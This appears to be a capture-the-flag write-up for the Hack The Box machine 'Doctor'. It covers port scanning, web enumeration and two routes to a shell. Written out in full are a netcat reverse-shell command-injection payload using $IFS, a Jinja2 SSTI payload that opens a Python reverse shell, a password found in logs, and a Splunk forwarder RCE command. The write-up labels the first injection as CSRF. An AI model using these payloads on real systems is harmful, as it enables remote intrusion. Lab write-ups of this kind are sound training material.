 ![](doctor_banner.png)

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="http://www.hackthebox.eu/badge/image/391067"></img></a>
</p>

# Scanning

## Nmap

`ports=$(nmap -Pn -p- --min-rate=1000 -T4 10.10.10.209 | grep open | awk -F / '{print $1}' ORS=',') echo $ports && nmap -p$ports -sV -sC -v -T4 -oA scans/nmap.full 10.10.10.209`
```
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Doctor
8089/tcp open  ssl/http Splunkd httpd
|_http-server-header: Splunkd
|_http-title: splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2020-09-06T15:57:27
|_Not valid after:  2023-09-06T15:57:27
```
## Splunk

__[Splunk](https://www.splunk.com/) :__ software for searching, monitoring, and analyzing machine-generated big data via a Web-style interface.

__Goto :__ https://10.10.10.209:8089/ `Splunk Atom Feed: splunkd`

__Access :__ Denied, need creds to access `services`

__Version :__ server has Splunk build: 8.0.5 

__vulnerability :__ [Abusing-Splunk-Forwarders](https://medium.com/@airman604/splunk-universal-forwarder-hijacking-5899c3e0e6b2)

__Exploit :__ [PySplunkWhisperer](https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2)

*Exploit requires creds*

## Web_server

- going through webserver on port `80` first thing i notice is a email address,

	  info@doctors.htb
	 
- I add domain `doctors.htb` from that email to `/etc/hosts` and check i there is any diffrence .
- __goto__ `doctors.htb` redirected to `http://doctors.htb/login?next=%2F` and land on a login page .

### Enumerating doctors.htb

- try default logins or some injection on login page but got nothing .
- in the top right corner there is a Register button .

__Note :__ registering a new account only valid for 20 minutes as the domain shows this message after registering account
```
Your account has been created, with a time limit of twenty minutes! 
```
- after login i check pages source codes and found a comment

	  <!--archive still under beta testing<a class="nav-item nav-link" href="/archive">Archive</a>-->
	  
- __goto__ `http://doctors.htb/archive` got blank page viewing source got `<title>Archive</title>`

- this domain `Doctor Secure Messaging` all about posting staff messages.
- as a loged in user i can post a message, so i create a new message.
- my post is on `http://doctors.htb/post/2` 
- this shows `post/2` but this is my first post, i check first post and this is a post from admin and nothing intrested here.
- I also check `/archive` source again and the `<title>` tag now updated with my post title
- try injections on `http://doctors.htb/post/new` page
- i use diffrent injecion payloads from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
- found 2 successful injections in `http://doctors.htb/post/new`
    - __CSRF__ in `Content` field
    - __SSTI__ in `title` field

*I learn Both Attacks from scratch*

*some resources that help me*

__Server-Side Template Injection__

https://www.youtube.com/watch?v=3cT0uE7Y87s

https://portswigger.net/research/server-side-template-injection

https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

__Cross-site request forgery__

https://www.youtube.com/watch?v=vRBihr41JTo

https://portswigger.net/web-security/csrf


#### CSRF Test

__Payload__ `<a href="http://tun0/test">TestURL</a>`

__Response__ `10.10.10.209 - - [05/Nov/2020 15:24:15] "GET /test HTTP/1.1" 200 -`

#### SSTI Test

__Payload__ `{{7*7}}`

__Response__ in `/archive` page source code `<title>` tag updated as `49`


# User Exploit
*Both injection give shell in the box*

## with CSRF

__Payload :__ `http://tun0/$(nc.traditional$IFS-e/bin/sh$IFS'tun0'$IFS'4141')`

- load the payload in Content field and post the message and shell pop in netcat .
- spaces in the code are a problem for the execution of the code,
- thats why i use `$IFS` as this is a space-replacer for Linux Bash .
	- [IFS](https://mywiki.wooledge.org/IFS) : 
	variable is used in shells (Bourne, POSIX, ksh, bash) as the input field separator
	The default value of IFS is space, tab, newline. 

## with SSTI

__Payload :__ `{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"tun0\",4141));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417)}}{%endif%}{% endfor %}`

got that working payload from : https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#exploit-the-ssti-by-calling-popen-without-guessing-the-offset

- load the payload in title field and post the message than go to `/archive` execute the payload and pop shell in netcat .

### Enumerating web@doctor

- `cat /etc/passwd` shows two users

	  shaun:x:1002:1002:shaun,,,:/home/shaun:/bin/bash
	  splunk:x:1003:1003:Splunk Server:/opt/splunkforwarder:/bin/bash

- linpeas script password string in apache2 logs

	  /var/log/apache2/backup:10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"

- got password rightaway, i tried that password for both users and worked for user `shaun`
	`shaun:Guitar123`

```
shaun@doctor:~$ cat user.txt
cat user.txt
aaaab5f8************************
```

# Local Enumeration

- I alredy found a Auth RCE for [Splunk](README.md#splunk) so first i try to login with these cred in splunk on port 8089
- login successful and i run that [exploit](exploit/SplunkWhisperer2_RCE.py)

# Root Privesc

## SplunkWhisperer RCE

`python SplunkWhisperer2_RCE.py --host 10.10.10.209 --username shaun --password Guitar123 --lhost tun0 --payload 'nc.traditional -e '/bin/sh' tun0 4242'`

- open netcat listener
- The exploit is straightforward and get a direct rootshell on nc listener .
```
root@doctor:/root# cat root.txt
cat root.txt
e03b774e************************
```